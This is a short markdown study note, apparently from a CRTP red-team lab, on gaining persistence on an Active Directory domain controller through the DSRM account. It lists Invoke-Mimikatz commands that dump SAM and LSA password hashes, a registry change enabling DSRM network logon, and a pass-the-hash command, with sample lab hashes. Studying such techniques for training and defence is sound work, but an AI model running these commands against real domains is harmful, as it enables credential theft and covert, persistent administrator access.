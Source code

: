 ```yaml
---
tags: [
	hacking,
	crtp,
	persistence
]
---
```

We have domain admin, lets really sink our hook in and ensure persistence.

It's pretty easy with ['Invoke-Mimikatz.ps1'](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1)

## What is DSRM?
Directory Services Restore Mode (aka DSRM), is a safe mode boot option for Windows Server domain controllers.  This is a backdoor to the database for administrators to used to repair, recover, and restore an Active Directory database.

## Exploit
There is a local administrator on every DC called "Administrator" whose password is the DSRM password.  

DSRM password (SafeModePassword) is required when a server is  
promoted to Domain Controller and it is rarely changed.  

After altering the configuration on the DC, it is possible to pass the  
NTLM hash of this user to access the DC.

```PowerShell
# Dump DSRM password (needs DA privs)  
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -Computername dcorp-dc

RID  : 000001f4 (500)
User : Administrator
NTLM : a102ad5753f4c441e3af31c97fad86fd
```

```PowerShell
# Compare the Administrator hash with the Administrator hash of below command  
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dcorp-dc

RID  : 000001f4 (500)
User : Administrator
NTLM : af0686cc0ca8f04df42210c9ac980760
```

#### Change logon behavior
The Logon Behavior for the DSRM account needs to be changed  
before we can use its hash.

```PowerShell
Enter-PSSession -Computername dcorp-dc  
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
```

#### Pass the hash
```PowerShell
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:dcorp-dc /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd /run:powershell.exe"'
```